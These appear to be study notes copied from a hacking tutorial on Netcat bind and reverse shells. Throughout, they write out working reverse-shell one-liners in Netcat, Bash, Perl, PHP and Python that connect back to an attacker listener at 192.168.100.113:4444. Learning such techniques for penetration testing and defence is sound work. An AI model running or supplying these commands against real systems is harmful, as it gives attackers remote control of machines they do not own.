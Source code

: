 
https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/

Access to a shell is, essentially, access to a machine.
"Popping" a shell is to connect to and having access to another machine.
Reverse shell is having the target machine to connect to us, the attacker box (machine).
Bind shell is when the attacker connect to a target which previously offered connection. 

# Reverse Shell

![[Pasted image 20240825142721.png]]

## Netcat reverse shell example

In order to setup a Netcat reverse shell we need to follow the following steps:

1. Setup a Netcat listener.
2. Connect to the Netcat listener from the target host.
3. Issue commands on the target host from the attack box.

First we setup a Netcat listener on the attack box which is listening on port 4444 with the following command:

> `nc –lvp 4444`

Than we issue the following command on the target host to connect to our attack box (remember we have remote code execution on this box):

For Linux:

> `nc 192.168.100.113 4444 –e /bin/bash`

For Windows:

> `nc.exe 192.168.100.113 4444 –e cmd.exe`

On the attack box we now have a bash shell on the target host and we have full control over this box in the context of the account which initiated the reverse shell. In this case the root user initiated the shell which means we have root privileges on the target host.
![Netcat basics - Reverse shel](https://www.hackingtutorials.org/wp-content/uploads/2016/11/Netcat-basics-Reverse-shell-5.jpg)

## Reverse shell without Netcat on the target host

One major downside on the shown example is that you need Netcat on that target host which is very often not the case in real world scenario’s. In some cases Netcat is present, or we have a way to install it, but in many cases we need to use alternatives ways to connect back to the attack box. Let’s have a look at a few alternative ways to setup a reverse shell.

### _Bash reverse shell_

With can also use Bash to initiate a reverse shell from the target host to the attack box by using the following command:

> `bash -i >& /dev/tcp/192.168.100.113/4444 0>&1`

![Netcat basics - Reverse shell bash](https://www.hackingtutorials.org/wp-content/uploads/2016/11/Netcat-basics-Reverse-shell-bash-6.jpg)

### _Perl reverse shell_

If Perl is present on that remote host we can also initiate a reverse shell using Perl. Run the following command on the target host to setup the reverse shell:

> `perl -e ‘use Socket;$i=”192.168.100.113″;$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname(“tcp”));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,”>&S”);open(STDOUT,”>&S”);open(STDERR,”>&S”);exec(“/bin/sh -i”);};’`

![Netcat basics - Reverse shell perl](https://www.hackingtutorials.org/wp-content/uploads/2016/11/Netcat-basics-Reverse-shell-perl-7.jpg)

### _PHP reverse shell_

When PHP is present on the compromised host, which is often the case on webservers, it is a great alternative to Netcat, Perl and Bash. Let’s run the following code to use PHP for the reverse shell to the attack box:

> `php -r ‘$sock=fsockopen(“192.168.100.113”,4444);exec(“/bin/sh -i <&3 >&3 2>&3”);’`

As we can see this reverse shell one liner also returns a /bin/sh shell.
![PHP reverse shell](https://www.hackingtutorials.org/wp-content/uploads/2016/11/Netcat-basics-Reverse-shell-PHP-8.jpg)

### _Python reverse shell_

Python is also a very commonly installed language on Linux machines. The following command issues a reverse shell using Python:

>`python -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“192.168.100.113”,4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);’`

![Python reverse shell](https://www.hackingtutorials.org/wp-content/uploads/2016/11/Netcat-basics-Reverse-shell-Python-9.jpg)

# Bind Shell


![[Pasted image 20240825143503.png]]

## Netcat Bind Shell
In this visualization the target binds a Bash shell to port 4444 using a Netcat listener. The attacker connects to this port using a simple Netcat command. The steps to setup a bind shell are as following:

1. Bind a bash shell to port 4444 using Netcat.
2. Connect to the target host on port 4444 from the attack box.
3. Issue commands on the target host from the attack box.

## Netcat Bind shell example

On the console:
![Netcat Bind shell example](https://www.hackingtutorials.org/wp-content/uploads/2016/11/Netcat-Bind-shell-example.jpg)

The target host binds a Bash shell to port 4444, than the attack connects to that port using Netcat and gains a root shell on the target.
